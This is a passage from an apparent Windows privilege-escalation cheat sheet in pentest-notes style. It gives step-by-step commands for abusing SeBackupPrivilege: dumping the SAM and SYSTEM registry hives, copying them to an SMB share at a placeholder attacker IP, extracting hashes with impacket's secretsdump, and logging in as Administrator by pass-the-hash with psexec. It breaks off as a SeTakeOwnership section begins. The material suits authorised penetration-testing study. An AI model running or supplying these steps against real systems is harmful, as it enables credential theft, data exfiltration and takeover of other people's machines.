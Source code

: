 ```
C:\Windows\system32>whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== ========
SeBackupPrivilege             Back up files and directories  Disabled
SeRestorePrivilege            Restore files and directories  Disabled
SeShutdownPrivilege           Shut down the system           Disabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
```

Backup the SAM and SYSTEM hashes:
```bat
reg save hklm\system C:\Users\<user>\system.hive
reg save hklm\sam C:\Users\<user>\sam.hive
```

Transfer files to attacker machine by setting up smb share via [impacket](https://github.com/fortra/impacket):
```
mkdir share
python /opt/impacket/examples/smbserver.py -smb2support -username <username> -password <password> public share
```
```
copy C:\Users\<user>\sam.hive \\ATTACKER_IP\public\
copy C:\Users\<user>\system.hive \\ATTACKER_IP\public\
```

Retrieve the users' password hashes:
```
python3 /opt/impacket/examples/secretsdump.py -sam sam.hive -system system.hive LOCAL
```

Perform a Pass-the-Hash attack using Administrator's hash:
```
python3 /opt/impacket/examples/psexec.py -hashes <LM_Hash>:<NT_Hash> administrator@$IP
```

### SeTakeOwnership
The `SeTakeOwnership` privilege allows a user to take ownership of any object on the system, including files and registry keys, opening up many possibilities for an attacker to elevate privileges.

```
C:\Windows\system32>whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                              State
============================= ======================================== ========
SeTakeOwnershipPrivilege      Take ownership of files or other objects Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                 Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set           Disabled
```
